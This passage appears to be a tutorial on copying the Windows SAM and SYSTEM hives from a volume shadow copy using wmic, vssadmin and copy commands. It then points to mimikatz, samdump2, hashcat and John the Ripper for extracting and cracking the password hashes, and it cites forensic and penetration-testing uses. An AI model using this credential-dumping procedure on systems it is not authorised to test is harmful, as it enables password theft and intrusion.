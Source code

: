 You’ll need administrative privileges to create a shadow copy. Open a Command Prompt with elevated privileges:

1. Press `Windows + X` and select **Command Prompt (Admin)** or **Windows PowerShell (Admin)**.

### Step 2: Create a Shadow Copy

To create a shadow copy of the entire volume where the SAM file is located (usually the `C:` drive), use the `wmic` command:

```cmd
wmic shadowcopy call create Volume='C:\'
```

This command will create a shadow copy of the `C:` drive. The output will include the ID of the shadow copy created.

### Step 3: Find the Shadow Copy Path

You can list all shadow copies to find the exact path to the one you just created:

```cmd
vssadmin list shadows
```

Look for the **Shadow Copy ID** and **Shadow Copy Volume** in the output. The path will look something like `\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopyX\`, where `X` is the shadow copy number.

### Step 4: Copy the SAM and SYSTEM Files from the Shadow Copy

You can now use the `copy` command to retrieve the SAM and SYSTEM files from the shadow copy. Replace `X` with the correct shadow copy number.

```cmd
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopyX\Windows\System32\config\SAM C:\path\to\save\SAM
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopyX\Windows\System32\config\SYSTEM C:\path\to\save\SYSTEM
```

### Step 5: Analyze the Files

With the SAM and SYSTEM files copied, you can now analyze them using tools like `samdump2`, `mimikatz`, `hashcat`, or `John the Ripper` to extract and crack the password hashes.

- **Cleanup**: After you’ve finished, you can delete the shadow copy to free up space:

  ```cmd
  vssadmin delete shadows /for=C: /oldest
  ```

  Or you can delete a specific shadow copy using its ID:

  ```cmd
  vssadmin delete shadows /Shadow={Shadow Copy ID}
  ```

This process allows you to create a backup of the SAM file without rebooting the system, which is useful for both forensic analysis and penetration testing purposes.
